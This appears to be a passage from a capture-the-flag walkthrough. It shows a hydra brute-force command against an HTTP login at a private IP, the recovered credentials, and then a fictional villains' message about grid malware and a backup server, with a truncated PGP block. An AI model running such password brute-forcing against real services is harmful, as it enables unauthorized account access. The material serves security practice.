 **hydra \-L users\.txt \-P /usr/share/wordlists/rockyou\.txt 192\.168\.0\.229 http\-get /zmail \-t 64**
\[80\]\[http\-get\] host: 192\.168\.0\.229   login: p48   password: electrico

-  login as p48:electrico

Listen carefully\. We are close to our attack date\. Nothing is going to stop us now\. Our malware is heavily planted in each power grid across Europe\. All it takes is a signal from this server after the timer has stopped, and nothing is going to stop that now\. For information, I have setup a backup server located on the same network \- you shouldn't need to access it for now, but if you do, scan for its local IP and use the SSH key encrypted below \(it is encrypted with your GPG key, by the way\)\. The backup server has root access to this main server \- if you need to make any backups, I will leave it for you to work out how\. I haven't got time to explain \- we are too close to launching our hack\.

\-\-\-\-\-BEGIN PGP MESSAGE\-\-\-\-\-

hQIMA1WQQb/tVNOiARAAub7X4CF6QEiz1OgByDAO4xKwLCM2OqkrEVb09Ay2TVVr
2YY2Vc3CjioPmIp1jqNn/LVLm1Tbuuqi/0C0fbjUTIs2kOWqSQVVpinvLPgD4K\+J
OykGxnN04bt9IrJddlkw3ZyZUjCBG46z\+AS1h\+IDCRezGz6Xq9lipFZwybSmL89J
pijIYF9JAl5PeSQK9kTHOkAXIsLUPvg8fsfa9UqGTZfxS6VhlNmsoFDf4mU6lSMl
k4VC2HDJwXoD\+dEdV5dX1vMLQ5CKETR1NjaWV/D\+\+YTaZMO\+wj5/qekfhqDXh0Yo
4KhqKKlAbk/XhPuRmuj/FnS/8zwlYH9wPYuacBPXLwCIzaQzkn5I\+7rVeeMqoT82
c2F7ASQy79COk9eU900ToCyjjXQwnlBaQ51QOZjnQgcEnKVmrbURgzpQUVzdy8Oy
XvysJt3OBIJ9zT1l7fq5slmCjVAq8G2nlhdNv1K27\+79eVPzrJ3pqg\+MlssXRb3T
PQ3hPgKR7U/YgU6O9YorAoJmgxD2CsmGrmK66jwbTKBONTxcfUg\+gu1z8Ad4gleL
\+Gbk4qMuLVFGzEBdeJYzRD7m6F3Ow/evwjzMr5fDdSOUSATOKuki0dOx14OTFNzP
CJbDZzquZ294lvFviYMSNQy7cWNN86gVQWyWUW0f\+Ui3UONTIr9e0gLez/OJUwzS
6wHHu7TA3lgwvc/iMjpuPLnGo046T8J0IqXZHOIn0LJXP36I0l4vTAGtKpZuGNS\+
zT/R1y6eIBd5CInFwLXbkbhOomwEfbHQci0zKHzjpEnx8a18zbuNLB4dclN3nyni
Fnh2S0YYPEoJXWKA6ToNuQF/GZyI8QKELyc4ZhkHiKmdN6Q9z659JWQOnM/MW\+tB
sjxwjesbAO\+hjc19ok0VUsiMVj8TnUuB1Ifgf4ItnDzP8Myc59/FaS46eVy7Y7M1
sICrc62wVLkglG2zjIvTF3CYPYrJDB6\+BXOGJv7vpPdcbpaVwc1KYjZW9JMfVLIz
NGY1zaz5nY9sZw/Q5rmYyUAzHnMjuOkRNjRuSjEHHZEG/gLLco6GCeBQzZqvyiXM
auuvO37nFduss3U\+7sLd4K3IabgZZHaEu4QEDiuZc40WVSZOIhv5srcLnky2GSPe
a0xjQxSvMNKroyx2IoKLNkUq1fDGbGD/Wu4erOz/TO0/SqnAJK9Mqh6CjUhAZwxE
m\+ALMtyYd3wyUcclqG1ruprGKKMB0KRNxAtIL\+RXmUvqhoPAazqZ/X6QW\+mekt6f
/sBuDEXD\+\+UPqYi24kO0E1UB8bdRNP\+sVxdFMoImahcqRog1tPp09aVcLcEtQBIP
7CZ/kUsQmEe5yPbK5W/0xSo8\+B4OranG9eHvjQlu/pS6GCsyT8NzEiZYMVQ5qs/A
04Rm5H5V7W\+elw9svPBSjDj6XBhUvUekJ9jU7es018k2fZ8gid1kFurNZ7xOLyTL
ebzLqsOszwIhGYEpYnt2m9R0M7eoEq4pmwfra5oaaNrDhKFAp6DddERMNmembr42
cLH1xBWuE2AVqFwbeEUYjVt\+Sy1OauuAGkMy9KxXSzR//1wQ0hojooz6XsY/a3c1
huvrG4CzMT8cPbNDMSvOGca0l\+QpmQ7qg14sYZuJcqARue07DgpQIsOXeUspFooO
lOUsNrJwJcpWJViKuJ9XuwcprBowdz6Y6WmeY57R13ivoHy\+j\+2s2Sefq6rjMzEw
HtatDtk9BA4gBFREqSldmepAnvE3GiJJEYHwC7sQCoqNB15/ftTM9LtbMRe05FXm
9mLcD2aSP5BIy9jrCBJqPjdsnxupqeBxMx9do79iCXIXms6VbNpnBeKMZFrnFx\+Z
LMd13s2pWA0CApb3JATcGa4adKs2k4L08oSr\+revlX3fUvey090VSji\+Kebi7gJ/
l08BWpMZbLbf9J6zgbLbWfl8OQbYLl94A8lTDK5m7JKLSSL/B16jx2LWPIGSszLS
NxlWCk0ae5Lf75Bbux12xkDukXsODd\+hkksNQ4M/E8wgBoRmrL9P/CUX4YvrVT9u
qK98rhQPeIJMYwYiZVb4K7L18EyKK6S\+jn5LwwUxzpkRRNZ8mg\+lbtiSwTDtG8IK
l6\+3kTIPcECGPbghf0GFH7PnQY8f0MO9IbYsy2pcoagGtizUecyraxPF9qPwoBV3
4QBz\+/KLKUpqwLUoKc5PLn7RAJcXZiY8QkSBW6jbieoblylDOIuDjpd3IYqCqjW8
WOI/XS4zi5R3mozMosLrohm27iDsuFNnEIiWFITYTrHuNRk1xW4YoZPiW22mp7qE
xnhp7GpepiD8RoRjj0AJThSa2Mlva/bfHwm98Fk8j4R60stBqkK/\+/7htpnwzQhF
e2w7UZwh\+EmwNGPyfeWn/4OAS8evTQc2svc/qHXvrHRid/6yDQt4ZCsJmsLDUEkj
1KG\+\+hRMC7TYPXP/LovWxm8JgKwI0T\+szYMXDSVOdGEM/168y7UMA/v28NJ7emzf
cC8JWBH4u4XntgwzEsc02BaY1E0NJ86/JuOX4ajYxDWlXR\+jJmmLWtbbI5mWW9mr
KaMzgdXQYQmmfMWJ/BLvb95FTg7R0QemsT1mk2jOfalaHz4670qRKhI48rb0\+c6Y
COYINTgYLtO1BtKkOR9Y7MMcvmCD\+GecL29gCvL\+t\+/VDLkvwvWErX4jTbjuLwJX
yGJKa7imlr4k72ZjhKJPivmdv4K8XtQKpBqtfop1Bma0EoFyQvIuuQpA9oP3qghl
MMFCF4PVpmSI0clZxJYcJX1VI6bkfc0hp4uj3Pu5\+G6OJHPOsgoSdFwkX1dBFp2I
Yir6n929kn\+OyX/T5hrBIiSs\+1rujRC/AeV7\+/BDVfoTk7Ti0MHnQ89K2L0xqayh
aw5mnpDFcOdBWBr5f5fBc2KxO8UK2Dyj5cTL05wvC8vzi81Zy8WzwEMnDAQ3hqTp
qymGZOhD1X0cpxRO3MTMHf7W3AJNmOqhU87teqDJQXmAeZ3Cy1zIIh3Y8Jem3A5y
7\+dUSAJacrdfqf8CNsGLT7iiyGCHOQH8Pig/9yCP1lerGBMN3rXeqBqoxSSYGa5Q